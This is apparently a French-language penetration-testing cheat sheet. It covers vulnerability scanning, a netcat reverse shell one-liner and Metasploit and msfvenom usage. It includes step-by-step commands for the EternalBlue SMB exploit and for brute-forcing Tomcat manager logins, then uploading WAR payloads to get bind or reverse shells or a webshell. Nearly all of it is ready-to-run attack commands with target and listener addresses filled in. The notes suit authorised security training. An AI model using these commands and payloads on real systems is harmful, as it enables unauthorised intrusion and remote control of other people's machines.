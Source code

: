 ```toc

```

# Scan de vuln
Utilisation de Greenbone (anciennement OpenVas) pour faire un scan sur les vulnérabilités connues.


# Exploitation
Recherche manuelle d'exploit disponibles sur internet, notamment dans la base *exploit database*.

Création d'un reverse shell :
1. Ecoute sur le pc de l'attaquant : `nc -nlvp 4444`
2. Connexion depuis la machine compromise : `nc <ip_attaquant> <por> -e /bin/sh`


## Metasploit
### Msfconsole
```bash
msfconsole
> search tomcat
> use auxiliary/scanner/http/tomcat_mgr_login
> show info
> set RHOST 172.30.12.51
> set RPORT 8080
> set ...
> run
```

### Msfvenom
Permet de créer des payloads
```bash
# List available payloads
msfvenom -l payloads

# List options of a payload
msfvenom --list-options -p windows/x64/shell/bind_tcp

# Create payload
msfvenom --payload linux/x86/shell_reverse_tcp LHOST=172.30.1.5 LPORT=4444 W > runme.war
```


# Exemples
## Eternal Blue
```bash
msfconsole
# FIND VULNERABLE HOSTS
> use auxiliary/scanner/smb/smb_ms17_010
> show options
> set RHOSTS 172.30.12.0/24
> set THREADS 5
> set SMBDomain
> set ...
> run

# EXPLOIT
> use exploit/windows/smb/ms17_010_eternalblue
> set ...
> set LHOST <my_ip>
> run

# IF IT WORKS
$ sysinfo
$ getuid


# ANOTHER EXPLOIT
> use exploit/windows/smb/ms17_010_psexec
> set payload windows/x64/meterpreter/reverse_tcp
```


## Tomcat
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat

```bash
msfconsole
> search tomcat

# Brute force tomcat manager login
> use auxiliary/scanner/http/tomcat_mgr_login
> show info
> set RHOST 172.30.12.51
> set RPORT 8080
> set ...
> run

# Upload a file to execute
> use exploit/multi/http/tomcat_mgr_upload
> set ...
> show payloads
> set PAYLOAD <payload_nb>
```

Le fichier upload peut permettre d'avoir un bind shell ou un reverse shell. On peut l'upload à la main depuis la console de tomcat manager aussi.

Pour créer un payload "manuellement" : 
```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=172.30.1.3 LPORT=4444 W > runme.war
```

Utilisation d'un script python pour générer le payload, le déployer et connecter le shell (c'est à peu près ce que fait metasploit aussi) :
https://github.com/mgeeky/tomcatWarDeployer
```bash
python3 tomcatWarDeployer.py --help

# For bind shell
python3 tomcatWarDeployer.py -U <user> -P <password> <target_ip>:<tomcat_port>
# For reverse shell
python3 tomcatWarDeployer.py -U <user> -P <password> -H <kaliip> -p <kali_listening_port> <target_ip>:<tomcat_port>
```

Si le bind et le reverse shell ne fonctionne pas, on peut toujours essayer de créer un webshell : https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#manual-method-web-shell
